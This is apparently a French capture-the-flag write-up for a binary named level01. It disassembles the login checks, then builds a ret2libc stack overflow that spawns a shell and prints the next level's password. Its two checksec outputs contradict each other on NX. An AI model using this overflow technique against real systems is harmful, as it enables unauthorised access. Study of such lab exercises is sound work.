# Analyse

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level01/level01
```

## Binaire

`./level01`
```
********* ADMIN LOGIN PROMPT *********
Enter Username:
```
`test`
```
verifying username....

nope, incorrect username...

```
## Gdb

`info function`
```asm
[...]
  0x08048464  verify_user_name
  0x080484a3  verify_user_pass
  0x080484d0  main
[...]
```


`disas main`
```asm
Dump of assembler code for function main:
   0x080484d0 <+0>:	push   ebp
   0x080484d1 <+1>:	mov    ebp,esp
   0x080484d3 <+3>:	push   edi
   0x080484d4 <+4>:	push   ebx
   0x080484d5 <+5>:	and    esp,0xfffffff0
   0x080484d8 <+8>:	sub    esp,0x60
   0x080484db <+11>:	lea    ebx,[esp+0x1c]
   0x080484df <+15>:	mov    eax,0x0
   0x080484e4 <+20>:	mov    edx,0x10
   0x080484e9 <+25>:	mov    edi,ebx
   0x080484eb <+27>:	mov    ecx,edx
   0x080484ed <+29>:	rep stos DWORD PTR es:[edi],eax         ; memset(buffer, 0, 16);
   0x080484ef <+31>:	mov    DWORD PTR [esp+0x5c],0x0
   0x080484f7 <+39>:	mov    DWORD PTR [esp],0x80486b8
   0x080484fe <+46>:	call   0x8048380 <puts@plt>             ; puts("********* ADMIN LOGIN PROMPT *********");
   0x08048503 <+51>:	mov    eax,0x80486df
   0x08048508 <+56>:	mov    DWORD PTR [esp],eax
   0x0804850b <+59>:	call   0x8048360 <printf@plt>           ; printf("Enter Username: ");
   0x08048510 <+64>:	mov    eax,ds:0x804a020
   0x08048515 <+69>:	mov    DWORD PTR [esp+0x8],eax
   0x08048519 <+73>:	mov    DWORD PTR [esp+0x4],0x100
   0x08048521 <+81>:	mov    DWORD PTR [esp],0x804a040
   0x08048528 <+88>:	call   0x8048370 <fgets@plt>            ; fgets(<a_user_name>, 256, <stdin>);
   0x0804852d <+93>:	call   0x8048464 <verify_user_name>
   0x08048532 <+98>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048536 <+102>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804853b <+107>:	je     0x8048550 <main+128>             ; if verify_user_name() == 0:   jump à <+128>  
   0x0804853d <+109>:	mov    DWORD PTR [esp],0x80486f0
   0x08048544 <+116>:	call   0x8048380 <puts@plt>             ; puts("nope, incorrect username...\n");
   0x08048549 <+121>:	mov    eax,0x1
   0x0804854e <+126>:	jmp    0x80485af <main+223>             ; jump à <+223>
   0x08048550 <+128>:	mov    DWORD PTR [esp],0x804870d
   0x08048557 <+135>:	call   0x8048380 <puts@plt>             ; puts("Enter Password: ");
   0x0804855c <+140>:	mov    eax,ds:0x804a020
   0x08048561 <+145>:	mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>:	mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>:	lea    eax,[esp+0x1c]
   0x08048571 <+161>:	mov    DWORD PTR [esp],eax
   0x08048574 <+164>:	call   0x8048370 <fgets@plt>            ; fgets(buffer, 100, <stdin>);
   0x08048579 <+169>:	lea    eax,[esp+0x1c]
   0x0804857d <+173>:	mov    DWORD PTR [esp],eax
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>     
   0x08048585 <+181>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048589 <+185>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804858e <+190>:	je     0x8048597 <main+199>             ; if verify_user_pass(buffer) == 0:   jump à <+199>
   0x08048590 <+192>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x08048595 <+197>:	je     0x80485aa <main+218>             ; idem mais jump à <+218> (return(0))
   0x08048597 <+199>:	mov    DWORD PTR [esp],0x804871e
   0x0804859e <+206>:	call   0x8048380 <puts@plt>             ; puts("nope, incorrect password...\n");
   0x080485a3 <+211>:	mov    eax,0x1
   0x080485a8 <+216>:	jmp    0x80485af <main+223>             ; jump à <+223> (return(1))
   0x080485aa <+218>:	mov    eax,0x0
   0x080485af <+223>:	lea    esp,[ebp-0x8]
   0x080485b2 <+226>:	pop    ebx
   0x080485b3 <+227>:	pop    edi
   0x080485b4 <+228>:	pop    ebp
   0x080485b5 <+229>:	ret
End of assembler dump.
```

`disas verify_user_name`
```asm
Dump of assembler code for function verify_user_name:
   0x08048464 <+0>:	push   ebp
   0x08048465 <+1>:	mov    ebp,esp
   0x08048467 <+3>:	push   edi
   0x08048468 <+4>:	push   esi
   0x08048469 <+5>:	sub    esp,0x10
   0x0804846c <+8>:	mov    DWORD PTR [esp],0x8048690
   0x08048473 <+15>:	call   0x8048380 <puts@plt>                       ; puts("verifying username....\n");
   0x08048478 <+20>:	mov    edx,0x804a040
   0x0804847d <+25>:	mov    eax,0x80486a8
   0x08048482 <+30>:	mov    ecx,0x7
   0x08048487 <+35>:	mov    esi,edx
   0x08048489 <+37>:	mov    edi,eax
   0x0804848b <+39>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]     ; return strcmp("dat_wil", <a_user_name>);
   0x0804848d <+41>:	seta   dl
   0x08048490 <+44>:	setb   al
   0x08048493 <+47>:	mov    ecx,edx
   0x08048495 <+49>:	sub    cl,al
   0x08048497 <+51>:	mov    eax,ecx
   0x08048499 <+53>:	movsx  eax,al
   0x0804849c <+56>:	add    esp,0x10
   0x0804849f <+59>:	pop    esi
   0x080484a0 <+60>:	pop    edi
   0x080484a1 <+61>:	pop    ebp
   0x080484a2 <+62>:	ret
End of assembler dump.
```

`disas verify_user_pass`
```asm
Dump of assembler code for function verify_user_pass:
   0x080484a3 <+0>:	push   ebp
   0x080484a4 <+1>:	mov    ebp,esp
   0x080484a6 <+3>:	push   edi
   0x080484a7 <+4>:	push   esi
   0x080484a8 <+5>:	mov    eax,DWORD PTR [ebp+0x8]
   0x080484ab <+8>:	mov    edx,eax
   0x080484ad <+10>:	mov    eax,0x80486b0
   0x080484b2 <+15>:	mov    ecx,0x5
   0x080484b7 <+20>:	mov    esi,edx
   0x080484b9 <+22>:	mov    edi,eax
   0x080484bb <+24>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]     ; return strcmp("admin", argv[1]);
   0x080484bd <+26>:	seta   dl
   0x080484c0 <+29>:	setb   al
   0x080484c3 <+32>:	mov    ecx,edx
   0x080484c5 <+34>:	sub    cl,al
   0x080484c7 <+36>:	mov    eax,ecx
   0x080484c9 <+38>:	movsx  eax,al
   0x080484cc <+41>:	pop    esi
   0x080484cd <+42>:	pop    edi
   0x080484ce <+43>:	pop    ebp
   0x080484cf <+44>:	ret
End of assembler dump.
```

# Exploit

Le programme compare le username fourni avec "dat_wil", puis le password fourni avec "admin".<br/><br/>
`./level01`
```
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...
```
Quel que soit le mot de passe, il affiche "nope, incorrect password..." et return, puis de toutes façons à aucun moment il ne nous affiche le fichier .pass ou nous ouvre un shell, donc on va devoir se débrouiller tout seul.


La stack est [non-exécutable](https://www.usenix.org/legacy/publications/library/proceedings/sec98/full_papers/full_papers/cowan/cowan_html/node21.html):
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level01/level01
```

Comme nous ne pouvons plus exécuter le shellcode situé sur la stack, nous allons changer notre technique, et nous allons appeler directement la fonction system() de la libc, en lui fournissant comme argument la chaine de caractère "/bin/sh".<br/>
doc principale : https://beta.hackndo.com/retour-a-la-libc/<br/>

Tout d'abord, on note que fgets() est utilisé sans protection sur un buffer à <main+164>. On peut donc faire un buffer overflow, cherchons l'offset avec un [générateur de pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).

```
(gdb) r
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
- L'EIP est réécrit avec un offset de 80. 

Notre exploit sera composé comme suit:
[ Offset de 80 (NopSled) ] [ Adresse system() ] [ Adresse retour (osef) ] [ Adresse "/bin/sh" ].

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
- L'adresse de system() est 0xf7e6aed0 (\xd0\xae\xe6\xf7)

```
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```
Cette commande recherche dans une plage mémoire commençant au début de la fonction __libc_start_main() (appelée avant notre fonction main), et d’une taille de 99 999 999 octets la string "/bin/sh".
- L'adresse de "/bin/sh" est 0xf7f897ec (\xec\x97\xf8\xf7)

`(python -c 'print "dat_wil\n" + "\x90" * 80 + "\xd0\xae\xe6\xf7" + "OSEF" + "\xec\x97\xf8\xf7"'; cat - ) | ./level01`
```
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
/bin/sh: 3: �: not found
Segmentation fault (core dumped)
```


